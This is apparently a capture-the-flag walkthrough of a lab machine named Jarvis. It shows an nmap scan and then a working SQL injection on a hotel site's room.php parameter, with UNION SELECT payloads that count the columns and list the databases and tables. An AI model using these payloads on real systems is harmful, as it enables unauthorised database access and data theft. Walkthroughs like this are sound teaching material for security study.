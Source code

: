 # Jarvis

As always, run an nmap scan:

```
 $ nmap -A 10.10.10.135
	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
	80/tcp open  http    Apache httpd 2.4.25 ((Debian))
	|_http-title: Stark Hotel
```
(trimmed)

Looking at the web server available, it's a simple listing page for a hotel. When you click a room, it takes you to `/room.php?cod=x` where x is presumably the room ID.

If you replace x with a string or an invalid id, the same page returns but all fields are blank. You can do a quick test for SQL injection with the following request:

```
GET /room.php?cod=999 OR 1=1;#
```

999 is an invalid ID (we assume), but we still get a room returned and shown to us, meaning this is vulnerable.

Since we're shown whatever the first row returned is, a `UNION select` should let us view any data we want with the right conditions. First, we need to match up the right amount of columns.

```
GET /room.php?cod=999 UNION SELECT 1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1,1; #
GET /room.php?cod=999 UNION SELECT 1,1,1,1,1,1,1; #
^^^ this one works
```

We get a similar page, but the price, name etc is all 1. Let's start by enumerating the databases:

```
GET /room.php?cod=0 UNION SELECT 1,GROUP_CONCAT(schema_name),1,1,1,1,1 FROM information_schema.schemata; #
```

For me, this set the name of the room to `aaa,hotel,information_schema,mysql,performance_schema`. We miss the first column because the id isn't directly visible in our page, and though it is reflected back at us through the image URL, it's easier to have it shown directly. `aaa` is a weird name, so it's probably someone else and not part of the box. It's safe to say the `hotel` database drives this website.

We can now start to look at the tables in our database:

```
GET /room.php?cod=0 UNION SELECT 1,GROUP_CONCAT(TABLE_NAME),1,1,1,1,1 FROM information_schema.tables; #
```

This gives us `room,ALL_PLUGINS,APPLICABLE_ROLES,CHARACTER_SETS...`. So it looks like our database is just the one table and then the default mysql stuff.
